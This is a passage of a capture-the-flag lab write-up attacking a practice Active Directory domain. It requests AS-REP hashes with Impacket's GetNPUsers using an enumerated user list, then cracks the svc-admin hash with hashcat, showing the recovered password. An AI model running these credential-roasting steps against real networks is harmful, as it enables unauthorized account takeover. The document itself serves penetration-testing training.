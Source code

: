 First, I created a list of user list from the discovered users in the previous step.

Impacket has a tool called "GetNPUsers.py" (located in `impacket/examples/GetNPUsers.py`) that allows to query AS-REProastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```sh
> impacket-GetNPUsers -no-pass -usersfile users spookysec.local/
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:0e368f3f1b9afe87a7f8dab6be46f4e7$0ce23f68452d75c6310db1e7c160564b95f854a69223f63cfc1d36d2472e49f01727ec846b55e900275688b437c8e79fc564dd766b93b00fc70d142ab983cef852250d787fa69a4efc89ade7f7ea5426742eca0aea18f239e652a486026e4d9dc66453605991d99a35373c55c8341d758d42e90b649d9ed464de283746bdb1c35d5335a03b4c79048a65ab76753c5021427fcf9489091e560a72ebd4952e5bef195810ad1d29e1309e8fbe2fa8a07a527fcb3afadc20b6bf03ad31eeeb5fd3471f69727fa7ad0d637c11a3ee54915620b7907cfe1bc36d6510ba4a117d8671fa0ce86c06b505f4492db8bf868bb0794b38a9
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- From the hashcat wiki, I found that this is a "Kerberos 5, etype 23, AS-REP" hash (mode 18200).

### Cracking the hash

```sh
> hashcat -a0 -m 18200 hash passwordlist.txt
...
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:0e368f3f1b9afe87a7f8dab6be46f4e7$0ce23f68452d75c6310db1e7c160564b95f854a69223f63cfc1d36d2472e49f01727ec846b55e900275688b437c8e79fc564dd766b93b00fc70d142ab983cef852250d787fa69a4efc89ade7f7ea5426742eca0aea18f239e652a486026e4d9dc66453605991d99a35373c55c8341d758d42e90b649d9ed464de283746bdb1c35d5335a03b4c79048a65ab76753c5021427fcf9489091e560a72ebd4952e5bef195810ad1d29e1309e8fbe2fa8a07a527fcb3afadc20b6bf03ad31eeeb5fd3471f69727fa7ad0d637c11a3ee54915620b7907cfe1bc36d6510ba4a117d8671fa0ce86c06b505f4492db8bf868bb0794b38a9:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:0e368f3f1b9...4b38a9
Time.Started.....: Mon Jun 30 04:00:30 2025 (0 secs)
Time.Estimated...: Mon Jun 30 04:00:30 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   516.8 kH/s (1.65ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8192/70188 (11.67%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/70188 (5.84%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> whitey
Hardware.Mon.#1..: Util: 16%

Started: Mon Jun 30 04:00:19 2025
Stopped: Mon Jun 30 04:00:31 2025
```
